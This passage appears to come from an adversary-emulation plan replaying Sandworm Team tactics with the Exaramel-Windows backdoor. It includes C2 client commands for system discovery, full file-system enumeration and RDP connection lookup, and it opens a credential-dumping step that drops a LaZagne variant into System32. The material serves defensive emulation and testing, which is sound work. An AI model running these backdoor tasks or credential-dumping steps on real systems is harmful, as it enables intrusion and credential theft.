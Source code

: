 [Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L36)

Get Windows version info.

```bash
# Sandworm Team used a backdoor to enumerate information about the infected system's operating system.

./evalsC2client.py --set-task Exaramel-Windows "get-sysinfo"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L46)

List entire file system.

```bash
# Sandworm Team has enumerated files on a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "enum-files C:\\"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L55)

Look for RDP connections.

```bash
# Sandworm Team had gathered user, IP address, and server data related to RDP sessions on a compromised host.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd netstat -ano | findstr 3389"
```

[Source Code](../../Resources/Exaramel-Windows/taskhandler/taskhandler.go#L17)

### :microscope: Cited Intelligence

* <https://www.justice.gov/opa/press-release/file/1328521/download>

* <https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/>

* <https://www.welivesecurity.com/2017/07/04/analysis-of-telebots-cunning-backdoor/>

<br>

## Step 17 - Credential Dumping

:microphone: `voice track`

During this step, Sandworm collects credentials.

Sandworm first uploads two files to disk:

```
1. C:\Windows\System32\oradump.exe
2. C:\Windows\System32\mslog.exe
```

oradump.exe is a variant of the open source tool, LaZagne. It has been refactored, some functionality removed, and compiled into a portable executable via PyInstaller.
